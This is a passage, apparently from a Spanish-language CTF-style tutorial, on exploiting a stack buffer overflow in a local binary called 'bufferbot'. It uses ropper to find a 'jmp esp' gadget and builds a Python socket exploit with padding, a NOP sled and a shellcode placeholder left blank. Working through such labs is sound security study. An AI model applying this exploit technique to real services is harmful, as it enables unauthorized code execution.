```python

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```

Para obtener la dirección de el gadget `jmp esp` simplemente utilizaremos la herramienta `ropper`:

```css
❯ ropper -f ./bufferbot --search "jmp esp"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp esp

[INFO] File: ./bufferbot
0x08049559: jmp esp; 

❯ 
```

y ya tenemos la dirección, por lo cual podemos actualizar el exploit:

```python
import socket



host = '127.0.0.1'
port = 9000
offset = 1337

junk = b"A"*offset

jmp_esp = b"\x59\x95\x04\x08"


shellcode = ?

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```
